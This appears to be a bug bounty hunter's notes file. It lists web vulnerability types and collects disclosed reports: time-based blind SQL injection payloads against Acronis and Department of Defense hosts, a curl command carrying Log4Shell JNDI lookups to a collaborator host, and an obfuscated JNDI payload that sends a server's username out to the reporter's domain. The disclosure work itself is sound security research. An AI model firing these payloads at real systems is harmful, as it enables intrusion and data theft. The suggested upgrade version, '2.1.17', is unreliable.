 # road

* SSTI (Username and tools)
* sqli 
* File Upload Vulnerabilities
* SSRF Scan
* web cache poisoning
* Os Command Injection
* Path Traversal Injection
* LFI
* 0Auth Injection

```
A1: Injection

A2: Broken Authentication

A3: Sensitive Data Exposure

A4: XML External Entities (XXE)

A5: Broken Access Control

A6: Security Misconfiguration

A7: Cross-Site Scripting (XSS)

A8: Insecure Deserialization

A9: Using Components with Known Vulnerabilities

A10: Insufficient Logging & Monitoring
```
# Sqli Reports 
## 1

I have discovered a SQL injection in https://demor.adr.acronis.com/ using the POST request via the username parameter.
Using the Repearter in Burpsuite I have submitted the following POST request:
```http
POST /ng/api/auth/login HTTP/2
Host: demor.adr.acronis.com
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Referer: https://demor.adr.acronis.com/
Cookie: PHPSESSID=bsrq24l7g5fmth5b683v2b3gu4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
{"username":"0'XOR(if(now()=sysdate(),sleep(35),0))XOR'Z","id":"27","password":"cc4226104294e44c5cec9f31cb6de7fa4597e4321b277f4e4b78c3a0ff980956"}
```
Which resulted in a 35 seconds delayed response (one of the print screens, named 35 captured this).
Using various values for the sleep function you get various time responses.
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.336
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.332
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.352
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.327
0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 6.337
```

I have attached two print screens from burp showing 16 and 35 seconds responses that were used in the payloads.

____________________

## 2 
 -
-

newcodeslayer137 submitted a report to U.S. Dept Of Defense.
June 10, 2023, 9:32am UTC

Description:
found on the websitehttps://████████ weakness is vulnerable to a blind sql injection.
POC: https:/█████████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
Tests Payload performed:
```
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z => 10.740
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z => 2.714
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z => 1.927
```
Impact
An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.
Best regards,
CodeSlayer137
System Host(s)
███
Affected Product(s) and Version(s)
CVE Numbers
Steps to Reproduce
```https:/██████/0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 15.896```
Suggested Mitigation/Remediation Actions

___________________________________


______________________________________

# Arbitrary Code Execution on ng01-cloud.acronis.com

Bir gün, uygulamanın içinde bir güvenlik açığı olduğunu fark ettim. Bu güvenlik açığı, internette "Log4Shell" olarak bilinen ve ciddi bir tehdit oluşturan bir problem. Log4j adlı bir yazılım kütüphanesi, internetten gelen verileri işlerken bazı hatalar yapıyor ve bu hatalar, kötü niyetli bir kişinin uzaktan, sanki bilgisayarın başında oturuyormuş gibi komutlar çalıştırmasına olanak tanıyor. Bu problem "CVE-2021-44228" koduyla tanımlanmış.

Neler Yaptım:

Bu açığı test etmek için bir yöntem buldum. Bu yöntemde Burp Collaborator adlı bir aracı kullandım. Bu araç, uygulamanın internet üzerinden verdiği tepkileri izlememi sağlıyor.

İlk olarak, bu aracı kullanarak bir komut oluşturdum. Bu komut, belirli bir internet adresine (COLLABORATOR_URL) bir istek gönderiyor. Komutu şu şekilde yazdım:

```bash
curl --http1.1 --silent --output /dev/null \
--header 'User-agent: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'X-Forwarded-For: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
--header 'Referer: ${jndi:ldap://${hostName}.<COLLABORATOR_URL>/a}' \
```
https://ng01-cloud.acronis.com
Bu Komut Ne Yapar?

Bu komut, belirli başlıklar (User-agent, X-Forwarded-For, Referer) kullanarak uygulamaya istek gönderiyor. Başlıkların içindeki ${jndi:ldap://...} kısmı ise, uygulamanın içindeki Log4j kütüphanesine "Bir internet adresine git ve oradan bazı bilgiler al" diyor.

Eğer bu açığın olduğu bir uygulamaya bu komutu gönderirseniz, Log4j kütüphanesi bu isteği işlerken benim belirttiğim internet adresine bir bağlantı yapmaya çalışıyor. Bu bağlantı başarılı olursa, bu uygulamanın zafiyeti olduğunu kanıtlamış oluyorum.

Sonuç:

Uygulama bana kendi sistem adını (hostname) gönderdi. Bu, uygulamanın dışarıdan gelen bu tehlikeli isteği işlediğini ve sonuç olarak sistemde uzaktan komut çalıştırmanın mümkün olduğunu gösterdi.

Etkisi:

Bu açıktan faydalanan kötü niyetli biri, uygulamaya uzaktan komutlar gönderip, bu komutları sistem üzerinde çalıştırabilir. Bu, sistemin tamamen ele geçirilmesine kadar varabilecek ciddi güvenlik riskleri oluşturur.
__________________________________
## Summary

Hi team,

It seems that the machine is affected by the latest CVE-2021-44228 which grants any authenticated user command execution. The vulnerability affects the remote asset forum.acronis.com and this issue allows to remote attackers to perfom Remote Code Execution via JNDI exfiltration.

## Steps To Reproduce

Vulnerable request is: `https://forum.acronis.com/search?s=${j${main:\k5:-Nd}i${spring:k5:-:}ldap://${sys:user.name}-04363f1f3427b48.test3.ggdd.co.uk/}`.

Which generates a pingback exfiltrating the information to my controlled server `ggdd.co.uk`:

{F1551515}

We can see that the system username is `solr`.

## Recommendations

Upgrade Log4j to latest version, 2.1.17.

## Impact

Remote OS command injection via JNDI queries.

